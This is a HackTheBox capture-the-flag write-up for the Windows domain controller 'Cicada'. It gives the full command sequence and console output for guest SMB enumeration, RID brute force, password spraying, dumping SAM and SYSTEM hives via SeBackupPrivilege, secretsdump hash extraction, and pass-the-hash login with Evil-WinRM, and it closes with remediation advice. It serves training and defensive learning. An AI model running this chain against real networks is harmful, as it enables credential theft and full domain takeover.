



`[AD]` `[SMB]` `[RID-BRUTE]` `[PASSWORD-SPRAY]` `[BLOODHOUND]` `[ADCS]` `[SEBACKUPPRIVILEGE]` `[PASS-THE-HASH]` `[OSCP]`



**Machine Write-Up**

---

**Platform:** HackTheBox
**Difficulty:** Easy
**Operating System:** Windows Server 2022 Build 20348

---

## Objective / Scope

The target is `cicada.htb` (`CICADA-DC.cicada.htb`), a Windows Server 2022 Domain Controller for the `cicada.htb` Active Directory domain. The scope covers all network-exposed services, with the goal of achieving full domain compromise — user and root flags.

---

<details>
<summary>Summary</summary>

Guest SMB access to the `HR` share leaks the domain's default onboarding password in an HR notice file. RID brute-forcing with the guest account enumerates five domain users, and a password spray confirms `michael.wrightson` never rotated the default credential. Authenticated as Michael, BloodHound collection and `certipy` enumeration show the internal CA is not published in AD, ruling out all ADCS-based attack paths. Querying user descriptions with `--users` exposes `david.orelious`'s password stored verbatim in his own AD account description field. His DEV share read access yields `Backup_script.ps1`, which hardcodes `emily.oscars`'s credentials in cleartext. Emily holds `SeBackupPrivilege` via Backup Operators membership, confirmed by BloodHound and `whoami /priv`. We exploit this to dump the SAM and SYSTEM registry hives using `reg save`, extract the Administrator NT hash with `secretsdump`, and authenticate directly via pass-the-hash with Evil-WinRM to achieve full domain compromise.

</details>

---

## Recon

### Nmap

```bash
nmap -sC -sV -Pn -oA scans/nmap/cicada cicada.htb
```

```
# Console Output
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0
Service Info: Host: CICADA-DC; OS: Windows
```

Key observations:

- **Domain:** `cicada.htb` / **Hostname:** `CICADA-DC.cicada.htb` / **OS:** Windows Server 2022 Build 20348
- **Port 5985 open** — WinRM is available; any account in Remote Management Users can get a shell
- **SSL cert issuer `CICADA-DC-CA`** on ports 389/636/3268/3269 — an internal Certificate Authority is running directly on the DC, worth enumerating later

Add both names to `/etc/hosts` before proceeding — SMB auth with domain accounts, Evil-WinRM, and BloodHound collection all require this:

```bash
echo '<DC_IP> cicada.htb CICADA-DC.cicada.htb' | sudo tee -a /etc/hosts
```

---

## Enumeration

### SMB — Guest Session & Share Access

A null session is permitted but can't list shares:

```bash
nxc smb cicada.htb -u "" -p "" --shares
```

```
# Console Output
SMB  <DC_IP>  445  CICADA-DC  [+] cicada.htb\:
SMB  <DC_IP>  445  CICADA-DC  [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

The built-in `guest` account (no password) gets further — and the `HR` share is readable:

```bash
nxc smb cicada.htb -u "guest" -p "" --shares
```

```
# Console Output
SMB  <DC_IP>  445  CICADA-DC  [+] cicada.htb\guest:
SMB  <DC_IP>  445  CICADA-DC  Share        Permissions  Remark
SMB  <DC_IP>  445  CICADA-DC  -----        -----------  ------
SMB  <DC_IP>  445  CICADA-DC  ADMIN$                    Remote Admin
SMB  <DC_IP>  445  CICADA-DC  C$                        Default share
SMB  <DC_IP>  445  CICADA-DC  DEV
SMB  <DC_IP>  445  CICADA-DC  HR           READ
SMB  <DC_IP>  445  CICADA-DC  IPC$         READ          Remote IPC
SMB  <DC_IP>  445  CICADA-DC  NETLOGON                  Logon server share
SMB  <DC_IP>  445  CICADA-DC  SYSVOL                    Logon server share
```

`DEV` has no permissions listed under guest — we'll need a domain account to reach it.

### HR Share — Default Password Leak

```bash
smbclient //cicada.htb/HR -U cicada.htb/guest
```

```
# Console Output
smb: \> dir
  Notice from HR.txt    A    1266    Wed Aug 28 13:31:48 2024

smb: \> get "Notice from HR.txt"
```

```
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our
security protocols, it's essential that you change your default password to something
unique and secure.

Your default password is: <PASSWORD REDACTED>

To change your password:

1. Log in to your Cicada Corp account using the provided username and the default
   password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password...

If you encounter any issues, contact support@cicada.htb.

Best regards,
Cicada Corp
```

The onboarding notice broadcasts the domain's default password to anyone who can read the share. Some users inevitably never rotate it.

### RID Brute Force — Domain User Enumeration

With a guest session, the DC will still resolve security principal SIDs to names via `LsaLookupSids`. We walk RID 0–10000 to map every user and group in the domain:

```bash
nxc smb cicada.htb -u "guest" -p "" --rid-brute 10000
```

```
# Console Output (custom accounts, RID ≥ 1000)
1104: CICADA\john.smoulder     (SidTypeUser)
1105: CICADA\sarah.dantelia    (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious    (SidTypeUser)
1601: CICADA\emily.oscars      (SidTypeUser)
```

Save these five to `users.txt` for the spray.

---

## Foothold — Password Spray (`michael.wrightson`)

Before spraying, check the domain lockout policy. A guest or null session can usually pull it:

```bash
nxc smb cicada.htb -u "guest" -p "" --pass-pol
```

We confirm there is no lockout threshold (verified in full after gaining credentials — see AD Enumeration). Safe to spray.

```bash
nxc smb CICADA-DC.cicada.htb -u users.txt -p '<PASSWORD REDACTED>' --continue-on-success
```

```
# Console Output
[-] cicada.htb\john.smoulder:<PASSWORD REDACTED>    STATUS_LOGON_FAILURE
[-] cicada.htb\sarah.dantelia:<PASSWORD REDACTED>   STATUS_LOGON_FAILURE
[+] cicada.htb\michael.wrightson:<PASSWORD REDACTED>
[-] cicada.htb\david.orelious:<PASSWORD REDACTED>   STATUS_LOGON_FAILURE
[-] cicada.htb\emily.oscars:<PASSWORD REDACTED>     STATUS_LOGON_FAILURE
```

`michael.wrightson` never changed the default. We verify his shares and check WinRM:

```bash
nxc smb CICADA-DC.cicada.htb -u michael.wrightson -p '<PASSWORD REDACTED>' --shares
```

```bash
nxc winrm cicada.htb -u michael.wrightson -p '<PASSWORD REDACTED>'
```

```
# Console Output
[-] cicada.htb\michael.wrightson:<PASSWORD REDACTED>
```

`michael.wrightson` has SYSVOL read access (checked for GPP `Groups.xml` — nothing found) but is not in Remote Management Users. No shell yet.

---

## AD Enumeration

### BloodHound Collection

```bash
nxc ldap CICADA-DC.cicada.htb -u michael.wrightson -p '<PASSWORD REDACTED>' \
    --bloodhound -c All --dns-server <DC_IP>
```

```
# Console Output
Resolved collection methods: acl, adcs, container, dcom, group, localadmin,
                              loggedon, objectprops, psremote, rdp, session, trusts
Bloodhound data collection completed in 0M 19S
Found 33 certificate templates
Found 0 Enterprise CAs
```

Ingest the zip into BloodHound and run the pre-built queries. `michael.wrightson` has Outbound Object Control entries but no exploitable attack paths to higher-privileged accounts.



### ADCS — Ruled Out

The nmap SSL cert issuer flagged an internal CA. We enumerate it with `certipy`:

```bash
certipy find -u michael.wrightson -p '<PASSWORD REDACTED>' \
    -dc-ip <DC_IP> -text -enabled -hide-admins -vulnerable
```

```
# Console Output
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 0 certificate authorities
[*] Found 0 enabled certificate templates
```

The `CN=Enrollment Services` container is empty — the CA is not published in AD. No enrollment endpoint exists, so clients cannot submit certificate requests. ESC1, ESC8, and all certificate-based attack paths are off the table. The CA exists solely to sign the DC's own LDAPS certificate.

### Password Policy

```bash
nxc smb CICADA-DC.cicada.htb -u michael.wrightson -p '<PASSWORD REDACTED>' --pass-pol
```

```
# Console Output
Minimum password length:        7
Password history length:        24
Maximum password age:           41 days 23 hours 53 minutes
Password Complexity Flags:      000001
    Domain Password Complex:    1
Minimum password age:           1 day 4 minutes
Reset Account Lockout Counter:  30 minutes
Locked Account Duration:        30 minutes
Account Lockout Threshold:      None
```

No lockout threshold — further spraying carries no account lockout risk.

---

## Lateral Movement — `david.orelious`

### Password in AD Description Field

```bash
nxc smb CICADA-DC.cicada.htb -u michael.wrightson -p '<PASSWORD REDACTED>' --users
```

```
# Console Output
david.orelious    Just in case I forget my password is <PASSWORD REDACTED>
```

`david.orelious` stored his password verbatim in his own AD account description — readable by any authenticated domain user. RID brute-force does not expose description fields; `--users` is required.

### DEV Share Access

```bash
nxc smb CICADA-DC.cicada.htb -u david.orelious -p '<PASSWORD REDACTED>' --shares
```

```
# Console Output
SMB  <DC_IP>  445  CICADA-DC  [+] cicada.htb\david.orelious:<PASSWORD REDACTED>
SMB  <DC_IP>  445  CICADA-DC  DEV          READ
SMB  <DC_IP>  445  CICADA-DC  HR           READ
SMB  <DC_IP>  445  CICADA-DC  NETLOGON     READ
SMB  <DC_IP>  445  CICADA-DC  SYSVOL       READ
```

`david.orelious` can now read `DEV`.

---

## Privilege Escalation — `emily.oscars`

### Credential Discovery in Backup Script

```bash
smbclient //cicada.htb/DEV -U cicada.htb/david.orelious -c 'recurse; ls'
```

```
# Console Output
Backup_script.ps1    A    601    Wed Aug 28 13:28:22 2024
```

```bash
smbclient //cicada.htb/DEV -U cicada.htb/david.orelious -c 'get Backup_script.ps1 Backup_script.ps1'
```

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "<PASSWORD REDACTED>" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)

$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

`emily.oscars`'s password is hardcoded in plaintext in the script. The script is stored on a share accessible to a lateral account, making credential exposure inevitable.

### Verifying Access

```bash
nxc smb CICADA-DC.cicada.htb -u emily.oscars -p '<PASSWORD REDACTED>' --shares
```

```
# Console Output
SMB  <DC_IP>  445  CICADA-DC  [+] cicada.htb\emily.oscars:<PASSWORD REDACTED>
SMB  <DC_IP>  445  CICADA-DC  ADMIN$       READ
SMB  <DC_IP>  445  CICADA-DC  C$           READ,WRITE
SMB  <DC_IP>  445  CICADA-DC  HR           READ
SMB  <DC_IP>  445  CICADA-DC  NETLOGON     READ
SMB  <DC_IP>  445  CICADA-DC  SYSVOL       READ
```

`emily.oscars` has `READ,WRITE` on `C$` and `READ` on `ADMIN$` — near-admin SMB access. WinRM confirms a shell is available:

```bash
nxc winrm cicada.htb -u emily.oscars -p '<PASSWORD REDACTED>'
```

```
# Console Output
[+] cicada.htb\emily.oscars:<PASSWORD REDACTED> (Pwn3d!)
```

```bash
evil-winrm -i <DC_IP> -u emily.oscars -p '<PASSWORD REDACTED>'
```

```
# Console Output
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>
```

```
whoami
```

```
# Console Output
cicada\emily.oscars
```

Grab the user flag from the desktop before moving on.

### SeBackupPrivilege Confirmed

```
whoami /priv
```

```
# Console Output
Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

BloodHound confirms the source: `emily.oscars` is a member of the **Backup Operators** built-in group, which grants `SeBackupPrivilege`. This privilege allows reading any file on the system regardless of ACLs — including the registry hives that store local account password hashes.



---

## Full Domain Compromise — SAM Dump & Pass-the-Hash

### Dumping the SAM and SYSTEM Hives

`reg save` honours `SeBackupPrivilege` — the export bypasses the ACL that normally restricts these keys to SYSTEM:

```
reg save HKLM\SAM C:\Windows\Temp\sam
```

```
# Console Output
The operation completed successfully.
```

```
reg save HKLM\SYSTEM C:\Windows\Temp\system
```

```
# Console Output
The operation completed successfully.
```

Download both to the attacking machine using Evil-WinRM's built-in transfer:

```
download C:\Windows\Temp\sam
download C:\Windows\Temp\system
```

### Extracting Hashes — secretsdump

```bash
secretsdump.py -sam sam -system system LOCAL
```

```
# Console Output
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<HASH REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:<HASH REDACTED>:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:<HASH REDACTED>:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

### Pass-the-Hash — Administrator

No cracking required. We authenticate directly with the NT hash using Evil-WinRM's `-H` flag:

```bash
evil-winrm -i <DC_IP> -u Administrator -H '<HASH REDACTED>'
```

```
# Console Output
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

```
whoami
```

```
# Console Output
cicada\administrator
```

Full domain compromise. Root flag on the Administrator's desktop.


> **Alternative — NetExec `backup_operator` module:** Automates the hive extraction without dropping into a shell first:
> ```bash
> nxc smb <DC_IP> -u emily.oscars -p '<PASSWORD REDACTED>' -M backup_operator
> ```
> Requires the same Backup Operators membership. Replaces the manual `reg save` + download steps.

---

## Remediation

- **Rotate or disable guest SMB access:** The guest account should be disabled or denied share access in production environments. HR documents containing credentials must never be placed on a share accessible without authentication.
- **Enforce default password rotation:** Onboarding passwords must be changed on first login, enforced via Group Policy (`Password must change at next logon`). A domain-wide password spray succeeded against an account that never rotated.
- **Audit AD account description fields:** Regularly scan all user objects for cleartext credentials in description, info, or comment attributes. Tooling: `Get-ADUser -Filter * -Properties Description | Where-Object { $_.Description -like '*password*' }`.
- **Remove plaintext credentials from scripts:** `Backup_script.ps1` hard-codes a cleartext password. Use Group Managed Service Accounts (gMSA) or Windows Credential Manager instead of embedding credentials in files stored on accessible shares.
- **Restrict Backup Operators membership:** `SeBackupPrivilege` enables full SAM/NTDS exfiltration. Membership in Backup Operators should be limited to dedicated backup service accounts, not interactive user accounts, and should be audited quarterly.
- **Publish the CA or decommission it:** An unpublished CA generates misleading audit noise. If certificate enrollment is not required, decommission the CA; if it is required, publish it properly and lock down enrollment permissions.

---

## Vulnerability Summary

| # | Vulnerability | Impact |
|---|---|---|
| 1 | Guest SMB — HR share readable unauthenticated | Default password disclosure |
| 2 | Default password not rotated (`michael.wrightson`) | Initial domain foothold |
| 3 | Password stored in AD description field (`david.orelious`) | Lateral movement |
| 4 | Plaintext credential in backup script on accessible share (`emily.oscars`) | Privilege escalation path |
| 5 | Backup Operators membership → SeBackupPrivilege → SAM dump | Full domain compromise |
